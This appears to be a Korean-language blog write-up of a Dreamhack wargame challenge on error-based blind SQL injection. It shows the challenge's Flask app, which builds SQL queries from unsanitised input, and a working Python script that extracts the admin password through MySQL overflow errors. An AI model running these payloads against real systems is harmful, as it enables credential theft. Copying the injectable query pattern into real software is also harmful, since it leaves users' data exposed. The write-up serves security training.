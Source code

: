 ```yaml
---
title: "[ Dreamhack ] error based sql injection"
date: 2023-03-27T13:59:39.240Z
categories: [Wargame, Dreamhack]
tags: ["dreamhack","web"]
---
```

![](/images/a51148e5-6e16-418b-9330-e4afc0569485-image.png)

![](/images/25316dc8-ff5a-4021-8725-60877ed28918-image.png)

<br>



## **문제 분석**

---

주어진 문제 소스코드이다.
```python
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''
     
@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        try:
            cur = mysql.connection.cursor()
            cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
            return template.format(uid=uid)
        except Exception as e:
            return str(e)
    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')


```

코드를 보면 sql injection 필터링이 전혀 없는 것을 알 수 있다.

<br>

<br>



##  **문제 풀이**

---
![](/images/93002b51-b6c7-40be-9d17-2968d5c2d8f0-image.png)

값을 아무거나 넣어보면 query문은 실행되지만 결과값은 보이지 않는다.

<br>

![](/images/b0b2f386-a302-421e-9e76-1e8616296a27-image.png)

하지만 싱글쿼터를 넣어보면 에러 메시지를 볼 수 있다. 따라서 error based blind sql injection을 해야한다.

<br>

<br>

## **Exploit code**

---
```python
import requests

address = 'http://host3.dreamhack.games:10771/'
def find_length():
	pw_len = 1
	while 1:
		url = f"{address}?uid=1' or if(length((select upw from user where uid='admin'))='{pw_len}',9e307*2,1);%23"
		res = requests.get(url)
		if "DOUBLE value is out of range" in res.text:
			print(f'[+] Password Length : {pw_len}')
			return pw_len
		pw_len += 1

def find_password(pw_len):
    answer = ''

    for i in range(1,pw_len+1):
        for j in range(48,123):
            if 58<=j<=64: continue
            if 91<=j<=96: continue
            url = f"{address}?uid=1' or if(uid='admin' and ord(substr(upw,{i},1))='{j}',9e307*2,1);%23"
            res = requests.get(url)
            if "DOUBLE value is out" in res.text:
                answer += chr(j)
                print(f'[+] Find Password : {answer}')
                break
    print(f'[+] Find Password : {answer}')

find_password(find_length())
```

